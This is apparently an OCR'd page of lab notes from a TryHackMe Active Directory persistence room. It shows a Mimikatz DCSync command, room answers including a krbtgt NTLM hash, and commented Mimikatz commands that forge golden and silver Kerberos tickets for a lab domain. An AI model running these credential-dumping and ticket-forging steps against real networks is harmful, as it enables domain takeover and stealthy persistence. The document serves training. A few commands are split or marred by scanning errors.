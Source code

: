 ```shell
#launch powershell

#use Get-Content to read lines above and below match
Get-Content .\sv_dcdump.txt | Select-String -Pattern krbtgt -Co
ntext 10,10
```

```markdown
1. What is the Mimikatz command to perform a DCSync for the username of test on the za.tryhackme.loc domain? - lsadump::dcsync /domain:za.tryhackme.loc /user:test

2. What is the NTLM hash associated with the krbtgt user? - 16f9af38fca3ada405386b3b57366082
```

## Persistence through Tickets

* Golden Tickets are forged TGTs and Silver Tickets are forged TGS tickets.

* The scope for Silver Tickets is limited to whatever service is targeted on the specific server.

* Golden Tickets can be defended against by Blue Team by rotating the KRBTGT password twice; Silver Tickets are less likely to be discovered and harder to defend against as passwords of every machine account need to be rotated.

```shell
#from the dcsync attack, we have NTLM hash of krbtgt
#we can get NTLM hash of THMSERVER1 machine account for Silver Ticket

#get DomainSID using AD-RSAT cmdlet
powershell -ep bypass

#we have the required info to forge tickets
exit
#exit powershell

C:\Tools\mimikatz_trunk\x64\mimikatz.exe

#in mimikatz, generate golden ticket
kerberos::golden /admin:ReallyNotALegitAccount /domain:za.tryhackme.loc /id:500 /s
id:S-1-5-21-3885271727-2693558621-2658995185 /krbtgt:16f9af38fca3ada405386b3b57366082 /endin:
600 /renewmax:10080 /ptt
#/admin for user to be impersonated
#/id is 500 for default Administrator account RID
#/sid for domain we want to generate ticket for
#/endin shows ticket lifetime of 600 mins
#/ptt injects ticket directly into session, ready to use

#or generate a silver ticket
kerberos::golden /admin:StillNotALegitAccount /domain:za.tryhackme.loc /id:500 /sid:S-1-5-21-3885271727-2693558621-2658995185 /target:THMSERVER1.za.tryhackme.loc /rc4:<4c02d970f7b3da7f8ab6fa4dc77438f4 /service:cifs /ptt
#/target is for hostname of target server
#/rc4 is for NTLM hash of target machine account
#/service for service requested in TGS; CIFS allows file access

dir \\thmdc.za.tryhackme.loc\c$\
#to verify the golden ticket works

dir \\thmserver1.za.tryhackme.loc\c$\
#or to verify silver ticket
```
